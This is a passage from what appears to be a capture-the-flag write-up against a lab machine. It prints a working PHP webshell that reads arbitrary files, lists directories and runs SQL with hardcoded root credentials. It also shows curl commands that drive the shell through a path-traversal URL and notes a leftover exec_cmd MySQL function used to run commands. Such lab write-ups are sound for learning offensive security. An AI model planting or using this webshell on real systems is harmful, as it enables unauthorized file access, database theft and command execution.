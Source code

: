 ```bash
sploit = <?php
if (isset($_REQUEST['file'])) { 
    echo file_get_contents($_REQUEST['file']);
} 

if (isset($_REQUEST['dir'])) {
    print_r(scandir($_REQUEST['dir']));
}

if (isset($_REQUEST['db'])) {
    $conn = new mysqli("localhost", "root", "changethis", "ecom") or die("Connect failed: %s\n". $conn -> error);
    $res = mysqli_query($conn, $_REQUEST['db']);
    while ($row = $res->fetch_row()) {
        foreach ($row as $r) {
            echo $r . " ";
        }
        echo "\n";
    }
}

?>
```

It works:

```
root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode 'db=select @@version'
5.7.30-0ubuntu0.18.04.1
```

### exec_cmd

Eventually I checked the mysql.func table, which stores information about user-defined functions created with the CREATE FUNCTION UDF statement. The headers are Name, Ret, dl, type:

```
root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode 'db=select * from mysql.func;'
exec_cmd 0 libmysql.so function
```

exec_cmd isn’t a standard MySQL function, but rather a user defined function (UDF), perhaps left behind by the attacker. Just knowing the name, it’s worth a shot to run something. Command output doesn’t seem to come back (seems like that’s an issue with my shell, as exec_cmd does return data, as I’ll show in the next section), but it does seem to run, as running ping -c 5 takes about five seconds to return.

### Shell
Just like with the webshell, nothing that sends traffic back to my host seems to work. But I can guess that since the user had a shell added, perhaps there’s a .ssh directory. And it works:
